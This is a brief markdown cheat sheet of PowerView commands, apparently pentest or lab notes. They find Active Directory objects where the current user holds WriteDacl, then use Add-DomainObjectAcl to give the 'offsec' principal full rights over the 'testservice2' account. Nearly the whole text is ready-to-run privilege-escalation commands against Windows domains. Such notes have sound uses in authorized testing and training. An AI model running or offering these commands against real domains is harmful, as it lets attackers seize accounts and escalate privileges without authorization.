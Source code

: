 ## powerview

``` powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")){$_}} | Foreach-Object {if ($_.ActiveDirectoryRights -like "*WriteDacl*"){$_} }
```

``` powershell
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```

* Get single user

``` powershell
Get-ObjectAcl -Identity testservice2 -ResolveGUIDs
```

